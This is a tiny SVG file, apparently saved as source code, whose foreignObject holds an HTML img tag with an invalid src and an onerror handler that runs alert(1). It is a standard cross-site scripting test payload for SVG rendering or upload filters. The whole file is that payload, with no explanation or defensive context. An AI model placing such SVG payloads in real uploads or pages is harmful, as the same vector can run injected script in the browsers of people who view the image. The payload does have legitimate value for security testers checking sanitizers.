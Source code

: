 <svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
<foreignObject width="100" height="100">
    <div xmlns="http://www.w3.org/1999/xhtml">
        <img src="x" onerror="alert(1)">
    </div>
</foreignObject>
</svg>


